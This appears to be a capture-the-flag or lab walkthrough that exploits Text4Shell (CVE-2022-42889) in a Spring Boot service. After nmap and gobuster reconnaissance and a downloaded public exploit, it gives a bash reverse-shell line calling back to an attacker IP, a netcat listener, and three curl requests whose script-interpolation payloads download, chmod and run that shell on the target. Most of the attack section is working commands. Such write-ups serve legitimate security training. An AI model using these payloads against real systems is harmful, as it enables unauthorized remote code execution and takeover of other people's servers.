




# Nmap

```bash
nmap -A -T4 -p 22,8080 192.168.165.150

# Results
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ad:ac:80:0a:5f:87:44:ea:ba:7f:95:ca:1e:90:78:0d (ECDSA)
|_  256 b3:ae:d1:25:24:c2:ab:4f:f9:40:c5:f0:0b:12:87:bb (ED25519)
8080/tcp open  http    Apache Tomcat (language: en)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/plain;charset=UTF-8).
|_http-favicon: Spring Java Framework
```

## Gobuster
```bash
gobuster dir -u http://192.168.165.150:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# Results
search               (Status: 200) [Size: 25]
error                (Status: 500) [Size: 105]
CHANGELOG            (Status: 200) [Size: 194]

## Curl CHANGELOG

```bash
curl http://192.168.165.150:8080/CHANGELOG

# Results

Version 0.2
- Added Apache Commons Text 1.8 Dependency for String Interpolation

Version 0.1
- Initial beta version based on Spring Boot Framework
- Added basic search functionality
```

## Google search Exploit
```bash
# Results
CVE-2022-42889-text4shell

https://github.com/kljunowsky/CVE-2022-42889-text4shell
```


## Download Exploit
```bash
wget https://github.com/kljunowsky/CVE-2022-42889-text4shell/archive/refs/heads/main.zip
```

## Create Shell

```bash
https://www.revshells.com/

# Linux based shell
# We are going to serve a shell on the server. Serve a bash based script
bash -i >& /dev/tcp/192.168.45.244/4444 0>&1

# Create file
sudo nano reverse

#Change permissions
sudo chmod +x reverse

#Host script
python3 -m http.server 80

```

```bash

## Listener
```bash
# Start Listener
nc -nvlp 4444
```
## Serve the Shell

```bash
curl -G 'http://192.168.165.150:8080/search' --data-urlencode 'query=${script:javascript:java.lang.Runtime.getRuntime().exec("wget 192.168.45.244/reverse -O /tmp/reverse")}'
```



##  chmod the file on the target
```bash
curl -G 'http://192.168.165.150:8080/search' --data-urlencode 'query=${script:javascript:java.lang.Runtime.getRuntime().exec("chmod +x /tmp/reverse")}'
```

## Execute Shell
```bash
curl -G 'http://192.168.165.150:8080/search' --data-urlencode 'query=${script:javascript:java.lang.Runtime.getRuntime().exec("bash /tmp/reverse")}'

# Shell established
# Grab flag

```